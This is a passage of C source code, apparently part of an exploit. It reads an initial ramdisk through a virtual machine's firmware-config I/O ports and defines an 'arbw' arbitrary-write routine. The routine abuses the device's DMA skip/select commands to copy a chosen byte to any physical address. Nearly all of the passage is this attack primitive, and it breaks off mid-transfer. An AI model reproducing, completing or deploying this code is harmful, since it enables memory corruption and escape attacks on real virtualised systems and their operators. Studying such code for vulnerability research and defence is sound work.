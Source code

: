 ```c

    if(initrd_cache != NULL)
        return initrd_cache;

    initrd_size = get_initrd_size();
    initrd_data = calloc(1, initrd_size);

    if(initrd_data == NULL)
        return NULL;
    
    outw(FW_CFG_INITRD_DATA, FW_CFG_PORT_SEL);
    for(int i = 0; i < initrd_size; ++i)
        initrd_data[i] = inb(FW_CFG_PORT_DATA);
    
    initrd_cache = initrd_data;
    return initrd_data;
}

int arbw(uint64_t phys_addr, uint8_t value, uint64_t (* get_cmd)(uint32_t, uint64_t, uint32_t)){
    uint64_t cmd_physaddr;
    uint32_t cmd_physaddr_lo;
    uint32_t cmd_physaddr_hi;

    uint64_t byte_addr;
    uint32_t byte_off;
    
    uint32_t initrd_size;
    uint8_t* initrd_data;
    
    //
    // Find the target byte in initrd
    //
    initrd_size = get_initrd_size();
    initrd_data = read_initrd();    

    byte_addr = (uint64_t)memmem(initrd_data, initrd_size, &value, sizeof(uint8_t));
    
    if(byte_addr == 0)
        return 0;
    
    byte_off = byte_addr - (uint64_t)initrd_data;

    //
    // Skip
    //
    if(get_cmd == NULL)
        cmd_physaddr = default_get_cmd(fw_ctl_skip | fw_ctl_select | (FW_CFG_INITRD_DATA << 16), 0, byte_off);
    else
        cmd_physaddr = get_cmd(fw_ctl_skip | fw_ctl_select | (FW_CFG_INITRD_DATA << 16), 0, byte_off);
    
    cmd_physaddr_lo = (uint32_t)(cmd_physaddr & 0xFFFFFFFFU);
    cmd_physaddr_hi = (uint32_t)(cmd_physaddr >> 32);

    outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH);
    outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW);
    

    //
    // 1 byte DMA transfer
    //
    if(get_cmd == NULL)
```
